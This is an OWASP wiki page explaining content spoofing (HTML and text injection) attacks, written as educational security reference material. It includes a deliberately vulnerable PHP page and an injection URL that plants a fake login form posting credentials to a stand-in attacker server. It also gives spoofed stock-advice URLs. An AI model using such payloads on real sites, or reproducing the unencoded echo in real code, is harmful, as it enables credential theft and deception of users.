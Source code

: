 ```yaml
---
layout: col-sidebar
title: Content Spoofing
author: Andrew Smith
contributors: Jmanico, Wichers, D0ubl3 h3lix, Rishu Ranjan, ADubhlaoich
permalink: /attacks/Content_Spoofing
tags: attack, Content Spoofing
auto-migrated: 1
---
```


{% include writers.html %}

## Description

Content spoofing, also referred to as _content injection_, "arbitrary
text injection" or _virtual defacement_, is an attack targeting a user
made possible by an injection vulnerability in a web application. When
an application does not properly handle user-supplied data, an attacker
can supply content to a web application, typically via a parameter
value, that is reflected back to the user. This presents the user with a
modified page under the context of the trusted domain.
This attack is typically used as, or in conjunction with, social
engineering because the attack is exploiting a code-based vulnerability
and a user's trust. As a side note, this attack is widely misunderstood
as a kind of bug that brings no impact.

> Attack Type: Client-Side

## Risk Factors

Risk factors depend on the business type of the application. If the
application business brand is well known and has major competitors, this
issue can be abused by malicious competitors/disgruntled
employees/unsatisfied customers to trigger mass distributions of false
messages to unsuspecting customers. Another factor that heightens the
risk is by doing SEO injection in a way that search engines crawl and
index crafted URLs with falsified messages.

By doing so, customers could be forced to switch to competitor's
products. This could lead to loss of monetary value until rectification
is properly done by the victim business. For public traded companies,
its shares will be falling down, leading to uncontrolled loss of
millions.

![../../assets/images/Fake-text.png](Fake-text.png "Fake-text.png")

## Attack Scenario

An attacker compromised social accounts which have thousands of
followers and distribute misleading Content Spoofing payload via
Twitter/Facebook/Instagram/ similar popular channel. This will lead
media to assume news is correct and create headline stories.

## Audit Guideline

Text injection can be easily found if:

1. User input via parameter or directly in the URL is reflected in the page response
2. Content-Type: text/plain
3. Application is giving default error pages

## Applicable Industries

- A business entity selling one type of product as a major business
  function

For example, Taxi hailing business, Online shopping business, Online
service business

- A business entity relying on the brand name

For example, Cosmetic brand, Airline brand

## [Threat Agents](Threat_Agents "wikilink")

- Malicious competitors
- Disgruntled employees
- Unsatisfied customers
- Scammers

## Content Spoofing vs. Cross-site Scripting

Content spoofing is an attack that is closely related to [Cross-site
Scripting (XSS)](<Cross-site_Scripting_(XSS)> "wikilink"). While XSS
uses \[<https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet>

<script>

and other techniques\] to run JavaScript, content spoofing uses other
techniques to modify the page for malicious reasons.

Even if XSS mitigation techniques are used within the web application,
such as proper output encoding, the application can still be vulnerable
to text based content spoofing attacks.

## Examples

### Hypertext Markup Language (HTML) Injection

A possible attack scenario is demonstrated below. For this scenario,
lets assumes no output encoding is being implemented:

1.  Attacker discovers injection vulnerability and decides to spoof a
    login form
2.  Attacker crafts malicious link, including his injected HTML content,
    and sends it to a user via email
3.  The user visits the page due to the page being located within a
    trusted domain
4.  The attacker's injected HTML is rendered and presented to the user
    asking for a username and password
5.  The user enters a username and password, which are both sent to the
    attackers server

<!-- end list -->

  -
    A simple PHP page containing an injection vulnerability via the
    *name* parameter:

<!-- end list -->

    <?php
        $name = $_REQUEST ['name'];
    ?>
    <html>
        <h1>Welcome to the Internet!</h1>
        <br>
        <body>
                Hello, <?php echo $name; ?>!
            <p>We are so glad you are here!</p>
        </body>
    </html>

The page functionality can be tested by making the following GET request
to the page:

    http://127.0.0.1/vulnerable.php?name=test

By requesting the link below, the page renders the injected HTML,
presents a login form, and comments out the rest of the page after the
injection point. Once a user enters their username and password, the
values are sent to a page named *login.php* on the attacker's server via
POST.

    http://127.0.0.1/vulnerable.php?name=<h3>Please Enter Your Username and Password to Proceed:</h3><form method="POST"
    action="http://attackerserver/login.php">Username: <input type="text" name="username" /><br />Password: <input type="password"
    name="password" /><br /><input type="submit" value="Login" /></form><!--

### Text Injection

Another example of a content spoofing attack would be to present false
information to a user via text manipulation. An attack scenario is
demonstrated below. For this scenario, lets assume proper output
encoding HAS been implemented and XSS is not possible:

1.  An attacker identifies a web application that gives recommendations
    to its users on whether they should buy or sell a particular stock
2.  The attacker identifies a vulnerable parameter
3.  The attacker crafts a malicious link by slightly modifying a valid
    request
4.  The link containing the modified request is sent to a user and they
    clicks the link
5.  A valid webpage is created using the attackers malicious
    recommendation and the user believes the recommendation was from the
    stock website

**Valid Page**

    http://vulnerablesite/suggestions.php?stockid=123&stockrecommendation=We+Recommend+You+Buy+Now

**Modified Page**

    http://vulnerablesite/suggestions.php?stockid=123&stockrecommendation=We+Really+Recommend+You+Sell+This+Stock+Now

Other example:

**Modified Page**

    http://vulnerablesite/suggestions.php?stockid=123&stockrecommendation=Our+site+has+experienced+major+hacking+incident.Please+use+our+competitor+site+http://www.competitor.com+until+we+further+announced+for+update.

## Related [Attacks](https://owasp.org/www-community/attacks/)

  - [Cross-site Scripting
    (XSS)](Cross-site_Scripting_\(XSS\) "wikilink")
  - [:Category:Injection Attack](:Category:Injection_Attack "wikilink")

## Related [Vulnerabilities](https://owasp.org/www-community/vulnerabilities/)

  - [:Category:Input Validation
    Vulnerability](:Category:Input_Validation_Vulnerability "wikilink")
  - [Improper Data Validation](Improper_Data_Validation "wikilink")

## Related [Controls](https://owasp.org/www-community/controls/)

  - [XSS (Cross Site Scripting) Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)

## References

  - <http://capec.mitre.org/data/definitions/148.html>
  - <http://projects.webappsec.org/w/page/13246917/Content%20Spoofing>
  - <http://itlaw.wikia.com/wiki/Content_injection_attack>
  - CERT Advisory on Malicious HTML Tags:
    <http://www.cert.org/advisories/CA-2000-02.html>
  - OWASP's [XSS (Cross Site Scripting) Prevention Cheat
    Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
  - OWASP Guide to Building Secure Web Applications and Web Services,
    Chapter 8: [Data Validation](Data_Validation "wikilink")
  - HTML Code Injection and Cross-site Scripting:
    <http://www.technicalinfo.net/papers/CSS.html>
  - Case studies (Spotify, LinkedIn, ..etc):
    <https://twitter.com/ncweaver/status/974802236567007232?s=12>

[Category:Injection](https://owasp.org/www-community/Injection_Flaws)
[Category:Attack](Category:Attack "wikilink")
